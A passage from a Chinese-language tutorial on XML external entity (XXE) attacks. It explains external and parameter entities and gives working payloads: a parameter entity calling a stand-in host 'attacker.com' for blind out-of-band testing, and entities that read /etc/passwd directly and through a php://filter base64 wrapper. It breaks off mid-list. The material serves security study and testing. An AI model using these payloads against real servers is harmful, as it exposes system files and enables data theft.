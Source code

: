 ```xml-dtd
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

XML外部实体是引发XML外部实体攻击的主要手段。

### 什么是XML参数实体？

有时，由于应用程序的某些输入验证或正在使用的XML解析器的某些加强，导致使用常规实体的XXE攻击会被阻止。在这种情况下，您可以改用XML参数实体。XML参数实体是一种特殊的XML实体，只能在DTD中的其他地方引用。

声明XML参数实体有两个明显的特征：

首先，实体名称前使用是的百分号：

```xml-dtd
<!ENTITY % myparameterentity "my parameter entity value" >
```

其次，实体参数在引用时使用的是%符号而不是&符号：

```xml-dtd
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
```

这意味着可以通过XML参数实体使用带外检测来测试 blind XXE，如下所示：

```xml-dtd
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
```

这个XXE  的 payload 声明了一个名为xxe的XML参数实体，然后在DTD中使用该实体。这将导致对攻击者的域进行DNS查找和HTTP请求来判断攻击是否成功。

## 主要利用方式

### 读文件

现在已不同方式读取`/etc/passwd`文件，如果是Windows主机可以读取：C:\windows\system32\drivers\etc\hosts文件

第一：直接读取，也可以通过file协议进行读取

```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

![img](https://raw.githubusercontent.com/shungli923/PicGoImg/master/assets%252F-L_2uGJGU7AVNRcqRvEi%252F-M5JwHs_b8OcUEBCgAQt%252F-M5MQDd-eCxp3Cy2bJ6S%252Fimage.png)

第二：如果目标服务器使用的是PHP环境，可以使用：

```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

第三：将元素类别声明为 ANY：
